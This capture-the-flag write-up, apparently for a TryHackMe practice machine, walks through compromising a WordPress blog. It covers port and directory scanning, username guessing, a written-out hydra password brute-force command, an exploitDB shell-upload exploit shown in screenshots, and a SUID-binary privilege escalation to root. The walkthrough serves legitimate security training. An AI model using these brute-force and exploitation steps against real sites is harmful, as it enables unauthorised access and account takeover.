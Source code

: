 # Blog  
> Billy Joel made a Wordpress blog!  
> Make sure to add ```<your instance IP>  blog.thm``` to your /etc/hosts file  
### Iniital enumeration  

PORT SCAN
```
PORT    STATE SERVICE      REASON  
22/tcp  open  ssh          syn-ack ttl 63  
80/tcp  open  http         syn-ack ttl 63  
139/tcp open  netbios-ssn  syn-ack ttl 63  
445/tcp open  microsoft-ds syn-ack ttl 63  

```
Since this is a wordpress box, we'll use a tool like uniscan to automate directory and file discovery:  

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://blog.thm/admin/
| [+] CODE: 200 URL: http://blog.thm/embed/
| [+] CODE: 200 URL: http://blog.thm/feed/
| [+] CODE: 200 URL: http://blog.thm/login/
| [+] CODE: 200 URL: http://blog.thm/note/
| [+] CODE: 200 URL: http://blog.thm/rss/
| [+] CODE: 200 URL: http://blog.thm/welcome/
| [+] CODE: 200 URL: http://blog.thm/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://blog.thm/admin/index.php
| [+] CODE: 200 URL: http://blog.thm/favicon.ico
| [+] CODE: 200 URL: http://blog.thm/index.php
| [+] CODE: 200 URL: http://blog.thm/license.txt
| [+] CODE: 200 URL: http://blog.thm/readme.html
| [+] CODE: 200 URL: http://blog.thm/robots.txt
| [+] CODE: 200 URL: http://blog.thm/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://blog.thm/search/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/sqlqhit.asp
===================================================================================================
```
Looking at the blog, we see there's an author called Karen Wheeler.
![image](https://user-images.githubusercontent.com/65077960/124903055-793ffa80-dfdb-11eb-9fed-3f1ea59192a4.png)

Looking at the URL of her author page, we can see the username kwheel, we'll take a note of that as we may be able ot use that in futurue.
Following the syntax of her username, we can infer that Billy Joel's username is probably bjoel, let's try it.
![image](https://user-images.githubusercontent.com/65077960/124903691-1f8c0000-dfdc-11eb-9eaa-a8b369d632df.png)

So we have two usernames that we can potentially use. Let's try bruteforce kwheels' password.
## User & root own 
```
hydra -l kwheel -P rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
We have to specify the criteria of a failed attempt since Wordpress doesn't give us a HTTP code such as 403, it always returns 200.
![image](https://user-images.githubusercontent.com/65077960/124904699-2ebf7d80-dfdd-11eb-9533-6e1a755339d9.png)
  
After logging in, we can see there's not a great deal here. Let's take a step back and look at the wordpress version (5.0.0).
We can google the version and see associated exploits.
![image](https://user-images.githubusercontent.com/65077960/124905832-5531e880-dfde-11eb-8b30-d18f78c06c81.png)
Looking at exploitDB, we can see there's a shell upload vuln that we can use (now that we have credentials). Let's try it.
![image](https://user-images.githubusercontent.com/65077960/124906774-57e10d80-dfdf-11eb-8623-ee049ded9864.png)

Immediately we see a wp-config file, that we can use to grab a password out of. We don't need this but it's good to take note of.
Since we know the user flag isn't going to be in a home directory, let's try escalate our priveleges and then look around:
```
find / -perm -u=s -type f 2>/dev/null  
```
We see a strange binary called "checker", we'll investigate it:  
![image](https://user-images.githubusercontent.com/65077960/124907519-2caaee00-dfe0-11eb-84a7-c4d1f512b572.png)  

Using a command like ltrace, we can watch what it does.
![image](https://user-images.githubusercontent.com/65077960/124907630-4ea47080-dfe0-11eb-872f-f3c93cd09b49.png)  
We can see it's looking for an environment variable called admin, let's try setting it and rerun it.
![image](https://user-images.githubusercontent.com/65077960/124907735-6a0f7b80-dfe0-11eb-8494-b6f3c6a85b5f.png)  
This allows us to escelate our privelleges to root and navigate the machine freely.

Root's flag is in /root/ (as usual)
User's flag, we still have to search for. We can do this manually or we can use a command like "find" to make things easier.
```
find / 2>/dev/null | grep user.txt
```
We're given the file path of the user flag, which we can submit to TryHackMe.

